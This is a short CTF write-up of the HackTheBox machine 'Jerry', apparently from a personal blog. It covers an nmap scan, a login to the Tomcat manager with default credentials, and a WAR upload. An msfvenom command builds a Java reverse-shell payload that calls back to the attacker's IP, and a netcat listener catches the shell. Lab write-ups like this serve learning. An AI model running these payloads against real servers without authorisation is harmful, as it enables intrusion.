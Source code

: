 ```yaml
---
title: Jerry
date: 2022-04-16 12:00:00 -500
categories: [writeups, HackTheBox]
tags: [nmap, WAR files, msfvenom]
---
```


# Jerry

Some more easy difficulty HackTheBox machines. This one was particularly fast and it didn't take me much more than 10 minutes. I started off with a standard nmap tcp scan. 

```bash
nmap -sV -vv -p- -Pn -T4 10.10.10.95 
```


This showed me that the port 8080 was open, and running Apache tomcat. 

I went http://10.10.10.95:8080/ and dug around for a bit. On the webpage was a button that said "Manager"


Clicking on it, it prompted me to input credentials. It still had the default tomcat credentials of 
>*tomcat:s3cret*


This brought me to a /manager webpage where I was able to upload .war files. 

Using msfvenom, I crafted a payload that allowed me to gain a reverse shell. I used the below command:
```bash 
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.2 lport=4321 -f war -o pwn.war 
```


Then, before uploading the file I started a netcat listener with:
```bash
nc -nvlp 4321
```


Uploading the file, I then clicked it, and checked back on my netcat listener where I found that it had caught a reverse shell. 
Digging around int the directory structure showed me that the user AND root flags were in C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt